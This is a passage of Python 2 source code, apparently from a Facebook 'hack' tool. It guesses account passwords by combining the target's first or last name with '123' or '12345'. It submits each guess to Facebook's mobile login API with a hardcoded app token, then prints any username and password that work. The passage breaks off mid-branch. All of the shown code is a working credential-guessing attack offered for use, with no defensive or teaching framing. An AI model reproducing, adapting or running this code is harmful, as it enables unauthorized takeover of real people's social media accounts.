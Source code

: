             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mName\x1b[1;97m : ' + a['name']
            jalan('\x1b[1;91m[+] \x1b[1;92mChecking \x1b[1;97m...')
            time.sleep(2)
            jalan('\x1b[1;91m[+] \x1b[1;92mOpen security \x1b[1;97m...')
            time.sleep(2)
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
            print 52 * '\x1b[1;97m\xe2\x95\x90'
            pz1 = a['first_name'] + '123'
            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
            y = json.load(data)
            if 'access_token' in y:
                print '\x1b[1;91m[+] \x1b[1;92mFounded.'
                print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m     : ' + a['name']
                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1
                raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
                menu_hack()
            else:
                if 'www.facebook.com' in y['error_msg']:
                    print '\x1b[1;91m[+] \x1b[1;92mFounded.'
                    print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
                    print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m     : ' + a['name']
                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1
                    raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
                    menu_hack()
                else:
                    pz2 = a['first_name'] + '12345'
                    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    y = json.load(data)
                    if 'access_token' in y:
                        print '\x1b[1;91m[+] \x1b[1;92mFounded.'
                        print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m     : ' + a['name']
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2
                        raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
                        menu_hack()
                    else:
                        if 'www.facebook.com' in y['error_msg']:
                            print '\x1b[1;91m[+] \x1b[1;92mFounded.'
                            print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
                            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m     : ' + a['name']
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2
                            raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
                            menu_hack()
                        else:
                            pz3 = a['last_name'] + '123'
                            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                            y = json.load(data)
                            if 'access_token' in y:
                                print '\x1b[1;91m[+] \x1b[1;92mFounded.'
                                print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m     : ' + a['name']
                                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3
                                raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
                                menu_hack()
                            else: